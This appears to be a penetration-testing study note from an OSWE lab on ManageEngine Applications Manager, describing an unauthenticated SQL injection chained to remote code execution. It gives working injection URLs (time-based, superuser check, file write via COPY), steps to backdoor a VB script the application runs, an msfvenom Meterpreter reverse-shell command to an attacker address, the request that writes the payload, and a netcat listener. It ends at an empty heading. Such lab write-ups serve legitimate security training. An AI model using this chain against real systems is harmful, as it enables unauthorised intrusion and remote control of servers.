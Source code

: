 # ManageEngine SQLI to RCE
In this module we have demonstrated how to discover an unauthenticated SQL injection vulnerability using source code audit in a Java-based web application.
We then showed how to use time-based blind SQL injection payloads along with stack queries in order to exfiltrate database information.
Finally, we developed an exploit that utilized Postgres User Defined Functions and Large Objects to gain a fully functional reverse shell.
## Vulnerability Discovery
By browsing through the ManageEngine’s Application Manager web interface, we can see that most URLs contain the `.do` extension. `.do` extension is typically used in a URL mapping scheme for **compiled Java code**.
Java web applications use a deployment descriptor file named **`web.xml`** to determine how URLs map to servlets, which URLs require authentication, and other information.
### Source Code Analysis
- Search for SQL queries in the source decompiled code in notepad++ using regx: `^.*?query.*?select.*?` (this expression basically says: Look for any line that begins with any number of alphanumeric characters which is followed by the string `query` which is followed by a number of any characters which is followed by the string `select` which is followed by a number of any characters.)
- To reduce a web app’s attack surface, start with the front-end and review HTTP handlers. In Java servlets, these are easily found by their consistent naming pattern, like **`doGet`** and **`doPost`**.
- Enable PostgreSQL logging from its configuration file `postgresql.conf`, search for the string `log_statement`, uncomment the line then set its value to `all` and **restart the service** to apply the changes. Start inspecting the logs `Get-Content C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\pgsql_log\postgresql_13.log -wait -tail 1`
- `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;` by injecting a special character (`;`) into the vulnerable parameter, we can check the logs for any syntax errors to verify if the injection was successful using the following command: `Get-Content postgresql_13.log -tail 100 | Select-String -pattern "syntax error"`
## Exploitation
- PGSQL supports stacked queries `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;select+pg_sleep(10);`
- if the app filters the quotes `'`, PostgreSQL supports `$$` (dollar-quoting) as a replacement for single quotes (`'`) to simplify writing strings that contain literal quotes.
- The attacker tests a SQL injection vulnerability to confirm DBA privileges by using a payload that checks if `current_setting('is_superuser')` returns `"on"`. If true, it triggers a 10-second delay via `pg_sleep(10)`, confirming administrative access. `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+`
- Use SQLI to write to the file system `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+`
- Invistige if any VB scripts are being executed after performaing some action (Creating a Monitor in our case) via ProcMon. If we have ability to write to the file system, we can inject a backdoor into this VB script and it will be executed automatically by the application.
### Accessing the file system
#### Backdoor Crafting
1. **Making the original script one liner**
Match and replace roles in Notepad++ :
- `'.*` (remove the comments)
- ` _.*?\n` with `✅ matches newline` option enabled (remove continuation lines)
- `    ` (remove tabs)
- match `\n` replace with `:` (remove newline and replace it with `:` which is the VB script command terminator)
2. **Create reverse shell**
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```
Match and replace roles in Notepad++ (to make the payload oneliner):

- ` _.*?\n` with `✅ matches newline` option enabled (remove continuation lines)
- `    ` (remove tabs)
- match `\n` replace with `:` (remove newline and replace it with `:` which is the VB script command terminator) **If you copied from the terminal, match on `\n\r` instead of jsut `\n`**
- mach `::` replace with `:` **repeat this multiple times** (remove consecutive conlons and replace it by only one colon)
3. **Final Payload**
  - We will paste out modified msfvenom payload just before `:WScript.Quit(0):`, as: `Echo serviceData:Next:PAYLOAD_HERE:WScript.Quit(0):`
4. **Write the payload to the target file system using the SQLI**
  - Encode the payload into Base64 then URL encode it
  - write it to to `wmiget.vbs` using `copy (select convert_from(decode($$ENCODED_PAYLOAD_HERE$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;`
  - Final SQLI query looks like this:
    ```
      /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;copy (select convert_from(decode($$ENCODED_PAYLOAD_HERE$$,$$base64$$),$$utf-8$$)) to $$C:\\Program Files (x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
    ```
  - change request method to POST and send the request
5. **Open a Netcat listener**
  ```
nc -nlvp 1337
  ```
**Exploitation Script:** https://github.com/solimanalmansor/OSWE-Prep/blob/main/OSWE-Labs/ManageEngine/windows_rce.py
### Large Object Reverse Shell
